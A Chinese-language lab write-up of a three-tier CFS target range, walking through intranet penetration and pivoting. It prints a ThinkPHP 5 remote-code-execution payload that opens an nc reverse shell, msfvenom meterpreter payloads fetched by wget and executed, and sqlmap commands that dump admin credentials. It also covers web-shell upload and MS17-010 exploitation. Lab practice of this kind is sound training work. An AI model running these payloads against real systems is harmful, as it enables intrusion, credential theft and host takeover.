

内网渗透之CFS三层靶机实践

- - -

# 内网渗透之CFS三层靶机实践

## 1.环境配置

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143151-c30d1532-b826-1.png)

注：下载后的靶机IP地址固定，如果搭建与靶机设置的IP不一致，先使用账户进行登录修改IP；另，由于IP地址与靶机设定不一致，需要登录宝塔面版更改绑定的域名(IP)，否则访问不了对应的Web服务。

## 2.攻击Target1

### 2.1信息收集

现已知target1 ip地址为192.168.179.161，进行端口信息收集

```plain
┌──(root&kali)-[~]
└─# nmap -p- -sT -sV -Pn -O 192.168.179.161
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2023-01-08 10:25 CST
Nmap scan report for localhost (192.168.179.161)
Host is up (0.00081s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     Pure-FTPd
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    nginx
111/tcp  open  rpcbind 2-4 (RPC #100000)
888/tcp  open  http    nginx
3306/tcp open  mysql   MySQL (unauthorized)
8888/tcp open  http    Ajenti http control panel
MAC Address: 00:0C:29:29:03:BA (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.02 seconds
```

目标为Linux系统，开放21、22、80、8888等端口。查看80端口的web服务：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143214-d0bfc0f8-b826-1.png)

### 2.2漏洞利用

目标端口使用ThinkPHP框架，查看V5过去爆出来的漏洞

使用远程命令执行漏洞的payload进行测试：

```plain
http://192.168.179.161/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143232-db5385b8-b826-1.png)

反弹shell:

```plain
http://192.168.179.161/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc 192.168.179.155 4444 -e /bin/bash
```

kali开启对4444端口监听，浏览器执行该http请求，得到shell，并找到3个flag:

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143248-e52302b2-b826-1.png)

### 2.3提权

内核是x86，使用mefvenom生成一个可执行的shell

```plain
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.179.155 lport=6789 -f elf -o shell.elf
```

生成完后，kali使用python开启http服务

```plain
python -m SimpleHTTPServer 8080
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143306-efa3909e-b826-1.png)

使用上面获取的shell下载可执行shell，并执行

```plain
wget http://192.168.179.155:8080/shell.elf
./shell.elf
```

在执行之前，kail需要先开启对6789的监听

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143324-fa78f2d4-b826-1.png)

msf收到反弹的shell

## 3.攻击Target2

### 3.1信息收集

查看Target的ip地址发现有5个

```plain
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface  2
============
Name         : ens33
Hardware MAC : 00:0c:29:29:03:ba
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.168.179.161
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::e62c:9b96:a8b2:5b56
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  3
============
Name         : ens37
Hardware MAC : 00:0c:29:29:03:c4
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.168.1.131
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::c8db:e0a5:b91d:ff9b
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  4
============
Name         : virbr0
Hardware MAC : 52:54:00:5a:99:42
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.168.122.1
IPv4 Netmask : 255.255.255.0


Interface  5
============
Name         : virbr0-nic
Hardware MAC : 52:54:00:5a:99:42
MTU          : 1500
Flags        : BROADCAST,MULTICAST
```

其中Interface2、3可以使用，获取当前网段信息，得到后将192.168.1.0/24添加至路由并查看路由信息

```plain
run get_local_subnets
run autoroute -s 192.168.1.0/24
run autoroute -p
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143343-05a12334-b827-1.png)

扫描一下192.168.1.0/24网段是否还有其它存活的主机

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143359-0f1a9d5a-b827-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143414-18506de6-b827-1.png)

发现存活主机192.168.1.132，于是下一步借助Target1作为跳板攻击192.168.1.132

msf设置代理：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143431-223a13d4-b827-1.png)

修改代理配置文件 **/etc/proxychains4.conf**

在最后添加：

```plain
socks4 127.0.0.1 1080
```

加上代理使用nmap扫描192.168.1.132

```plain
proxychains4 nmap 192.168.1.132 -sT -Pn -p 22-25,80,3389,8080
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143447-2bab3308-b827-1.png)

开放了80端口

### 3.2漏洞发现和利用

浏览器挂上代理访问80端口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143507-378d7118-b827-1.png)

使用BagaCMS，可以查找相关的漏洞，但是源码中有提示存在SQL注入

手工可验证，这里Sqlmap梭哈

```plain
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword --dbs --random-agent -keep-alive
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword -D bagecms --tables --random-agent -keep-alive
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword -D bagecms -T bage_admin --columns --random-agent -keep-alive
proxychains4 sqlmap -u "http://192.168.1.132/index.php?r=vul&keyword=1" -p keyword -D bagecms -T bage_admin -C username,password --dump --random-agent -keep-alive
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143526-433e0306-b827-1.png)

得到了后台账户和密码，进行登录，后台地址在robots.txt中有

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143540-4bb68fda-b827-1.png)

登录后发现一个flag，大致浏览一下，找一个文件写入一句话

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143555-549e074a-b827-1.png)

使用蚁剑连接

```plain
proxychains4 ./AntSword 
//或者直接在AntSword中设置代理
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143622-6450e310-b827-1.png)

打开虚拟终端发现了一个flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143637-6d54be64-b827-1.png)

### 3.3提权

使用mefvenom生成一个可执行的反弹shell

```plain
msfvenom -p linux/x86/meterpreter/bind_tcp lport=9876 -f elf -o shell2.elf
```

将elf文件通过蚁剑上传至Target2，赋予权限并执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143834-b3010f6c-b827-1.png)

开启msfconsole启动监听

```plain
proxychains4 msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/bind_tcp
show options
set rhost 192.168.1.132
set lport 9876
run
```

shell成功上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121143848-bbbce964-b827-1.png)

根目录存在flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121145300-b737472a-b829-1.png)

/etc/passwd中包含flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121145315-c07f2b7c-b829-1.png)

/var/log/faillog和/etc/crontab都存在flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121145330-c9678a2c-b829-1.png)

## 4.攻击Target3

### 4.1信息收集

查看Target的ip

```plain
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface  2
============
Name         : ens33
Hardware MAC : 00:0c:29:dd:84:84
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.168.1.132
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::4b0e:dd52:6f6d:fc8f
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface  3
============
Name         : ens38
Hardware MAC : 00:0c:29:dd:84:8e
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.168.2.128
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::5e7d:8792:ff65:a4a8
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

存在两个IP地址，可能192.168.2.0/24这个网段还有信息

将该网段添加至路由并扫描该网段

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121145349-d48bdfca-b829-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121145402-dca18de0-b829-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121145415-e436b8dc-b829-1.png)

发现192.168.2.0/24网段还存活主机192.168.2.129，并且开放了3389端口

msf添加代理：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121145429-ec6b2e48-b829-1.png)

/etc/proxychain4.conf添加代理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121145442-f45e7bbe-b829-1.png)

添加代理使用nmap对192.168.2.129进行扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121145457-fce814b6-b829-1.png)

通过开放的端口可以确定目标是windows机器

### 4.2漏洞利用

开放了445端口，尝试利用ms17-010

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121145512-060ba954-b82a-1.png)

目标上线，查看是Administrator账户，获取shell后修改其密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121145526-0ea466be-b82a-1.png)

使用rdesktop远程登录，发现桌面的flag文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121145545-19da7ca8-b82a-1.png)

在文件目录中搜索其他flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121145602-23d74ec0-b82a-1.png)

至此，内网主机全部拿下！
